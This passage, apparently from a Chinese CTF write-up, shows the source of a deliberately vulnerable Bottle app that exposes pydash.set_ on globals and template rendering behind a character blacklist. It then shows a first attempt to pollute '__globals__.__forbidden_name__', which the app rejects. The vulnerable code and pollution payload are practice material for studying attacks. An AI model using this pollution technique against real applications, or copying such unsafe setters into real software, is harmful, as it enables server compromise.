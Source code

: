 ```python
        if name==word:
            return False
    for word in __forbidden_path__:
        if path.find(word)>=0: return False
    obj=globals()[name]
    try:
        pydash.set_(obj,path,value)
    except:
        return False
    return True

@bottle.post('/setValue')
def set_value():
    name = bottle.request.query.get('name')
    path=bottle.request.json.get('path')
    if not isinstance(path,str):
        return "no"
    if len(name)>6 or len(path)>32:
        return "no"
    value=bottle.request.json.get('value')
    return "yes" if setval(name, path, value) else "no"

@bottle.get('/render')
def render_template():
    path=bottle.request.query.get('path')
    if len(path)>10:
        return "hacker"
    blacklist=["{","}",".","%","<",">","_"] 
    for c in path:
        if c in blacklist:
            return "hacker"
    return bottle.template(path)
bottle.run(host='0.0.0.0', port=8000)
```

rev修复了非预期

那就是打pydash污染

首先想着先把\_\_forbidden_name\_\_污染掉

```
?name=setval

{
"path":"__globals__.__forbidden_name__",
"value":""
}
```

![image-20250324143227253](../assets/image-20250324143227253.png)

发现no

